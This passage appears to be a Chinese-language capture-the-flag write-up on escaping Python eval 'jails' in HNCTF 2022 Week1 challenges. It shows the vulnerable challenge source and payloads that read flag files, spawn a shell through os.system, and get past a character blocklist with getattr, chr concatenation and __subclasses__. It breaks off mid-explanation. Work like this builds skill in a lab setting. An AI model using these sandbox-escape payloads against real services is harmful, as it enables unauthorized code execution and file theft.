 ```
 payload liked `__import__('os').system('cat ./flag.txt')` or `print(open('/flag.txt').read())`
```
我们用get交互shell
```
__import__('os').system('sh')
```
![6da128ec06e4f9679f245421c8365b2e.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1701773099241-5b1b4a6c-4cb2-4e53-8156-3280bb5dda03.png#averageHue=%23252832&clientId=ufe48b559-574f-4&from=paste&height=277&id=u2bb8b295&originHeight=347&originWidth=583&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=108979&status=done&style=none&taskId=u4659cf95-bd8c-4c70-bc1a-f1e405e6766&title=&width=466)
## 2.[HNCTF 2022 Week1]calc_jail_beginner_level1(JAIL)
```
#the function of filter will banned some string ',",i,b
#it seems banned some payload 
#Can u escape it?Good luck!

def filter(s):
    not_allowed = set('"\'`ib')
    return any(c in not_allowed for c in s)

WELCOME = '''
  _                _                           _       _ _   _                _ __ 
 | |              (_)                         (_)     (_) | | |              | /_ |
 | |__   ___  __ _ _ _ __  _ __   ___ _ __     _  __ _ _| | | | _____   _____| || |
 | '_ \ / _ \/ _` | | '_ \| '_ \ / _ \ '__|   | |/ _` | | | | |/ _ \ \ / / _ \ || |
 | |_) |  __/ (_| | | | | | | | |  __/ |      | | (_| | | | | |  __/\ V /  __/ || |
 |_.__/ \___|\__, |_|_| |_|_| |_|\___|_|      | |\__,_|_|_| |_|\___| \_/ \___|_||_|
              __/ |                          _/ |                                  
             |___/                          |__/                                                                                      
'''

print(WELCOME)

print("Welcome to the python jail")
print("Let's have an beginner jail of calc")
print("Enter your expression and I will evaluate it for you.")
input_data = input("> ")
if filter(input_data):
    print("Oh hacker!")
    exit(0)
print('Answer: {}'.format(eval(input_data)))

```
过滤了" ' i b \
所以import、__builtins__、bytes都用不了，尝试
```
__class__.__base__.__subclassser__()
```
但b被ban了，所以用getattr
```
getattr(().__class__,'__base__').__subclasses__()
```
但' 被ban了，用chr函数和字符串拼接绕过
![f097bfd1d34b5a55d62bf476f7c771a3.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1701775432614-e01b26f4-8b8f-4b28-9c2d-e77d8bf37cc9.png#averageHue=%231b252f&clientId=ufe48b559-574f-4&from=paste&height=182&id=ub0805d5c&originHeight=227&originWidth=268&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=1782&status=done&style=none&taskId=u86d2ff2c-da89-41fa-a486-fe4b5b3eabf&title=&width=214.4)
```
chr(95)+chr(95)+chr(98)+chr(97)+chr(115)+chr(101)+chr(95)+chr(95)
```
新的payload
```
getattr(().__class__, chr(95)+chr(95)+chr(98)+chr(97)+chr(115)+chr(101)+chr(95)+chr(95)).__subclasses__()
```
然后subclasses也有b被ban了
同样绕过
```
```
